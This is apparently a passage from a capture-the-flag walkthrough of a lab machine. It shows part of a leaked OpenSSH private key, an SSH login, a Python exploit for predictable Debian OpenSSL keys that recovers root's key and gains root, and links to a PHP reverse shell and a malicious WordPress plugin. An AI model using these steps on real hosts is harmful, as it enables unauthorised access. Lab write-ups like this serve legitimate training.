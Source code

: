     x0jO5Ry3ayU78AAACBAPHhbAttr9qfgLl313uI3wFmI+UTmtbzNYwNOtSbbx5+x4IXpFHr
    dAVCIg1D/o2sFQb03vHDO3KyDDQdE903E9hg4pcxB3F7PwIilCcvXtJfKuDNQOd+CcfEMl
    zdNqOXenwHVbwCKuV1Aea7YP4pWqU6+9bAYjtT8Keu5exUwcGNAAAAgQDcrBLl5jJU1Drd
    jwq/pz/4h+tzLkK+HocyYZFSZ+3Q3Rv4CK7HeWC80rfLNsc3ZktG755/WQLlXCSJ50sUmp
    Fp3Lkp1BGomrgELk4qqf3aF291nYcnSZVu0AfvlRWHHa52o23nuhu/rdcTQX5Lh4kWhWyz
    49he3VMR4O2JnBj2dwAAAAlrbGltQGtsaW0=
    -----END OPENSSH PRIVATE KEY-----

We can not connect using the private key of the user.

    root@kali ~/D/M/Klim# ssh klim@10.0.0.14 -i id_rsa

    klim@klim:~$ id -a
    uid=1000(klim) gid=1000(klim) groupes=1000(klim),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

Going to the ***/opt*** directory we can find a public key for the user ***root***. After downloading it we can find out it was generated using ***openSSL***. Using an [exploit][6] for openSSL we can find the corresponding private key for the user root.

    root@kali ~/D/M/K/openssl_exploit# python2 exploit.py rsa/2048/ 10.0.0.14 root 22 5

    Key Found in file: 54701a3b124be15d4c8d3cf2da8f0139-2005
    Execute: ssh -lroot -p22 -i rsa/2048//54701a3b124be15d4c8d3cf2da8f0139-2005 10.0.0.14

    root@kali ~/D/M/K/openssl_exploit# ssh -lroot -p22 -i rsa/2048//54701a3b124be15d4c8d3cf2da8f0139-2005 10.0.0.14
    Linux klim 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Jul 31 23:43:03 2022 from 10.0.0.27
    root@klim:~# id -a
    uid=0(root) gid=0(root) groupes=0(root)

    root@klim:~# cat root.txt 
    60667e12c8ea62295de82d053d950e1f

[1]: "https://linuxcommandlibrary.com/man/wpscan"

[2]: "https://linuxcommandlibrary.com/man/steghide#:~:text=Steghide%20is%20a%20steganography%20program,against%20first%2Dorder%20statistical%20tests."

[3]: "https://www.kali.org/tools/stegcracker/"

[4]: "https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php"

[5]: "https://github.com/wetw0rk/malicious-wordpress-plugin"

[6]: "https://www.exploit-db.com/exploits/5720"